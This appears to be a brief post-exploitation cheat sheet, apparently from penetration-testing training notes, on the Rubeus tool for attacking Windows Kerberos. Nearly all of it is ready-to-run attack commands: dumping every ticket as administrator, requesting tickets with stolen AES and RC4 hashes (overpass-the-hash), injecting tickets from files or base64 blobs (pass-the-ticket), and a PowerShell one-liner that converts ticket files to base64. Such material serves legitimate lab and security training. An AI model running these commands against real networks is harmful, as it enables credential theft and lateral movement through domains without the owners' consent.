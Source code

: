 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

[GitHub - GhostPack/Rubeus: Trying to tame the three-headed dog.](https://github.com/GhostPack/Rubeus)

## Usage 

### Export Tickets

```cmd-session
Rubeus.exe dump /nowrap
```

This option can be used to dump all tickets (if running as a local administrator). `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format. We are adding the option `/nowrap` for easier copy-paste.

#### Pass the Key or OverPass the Hash

```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

#### Pass the Ticket

```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
or
```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
or
```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```
###### Convert .kirbi to Base64 Format

```powershell-session
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
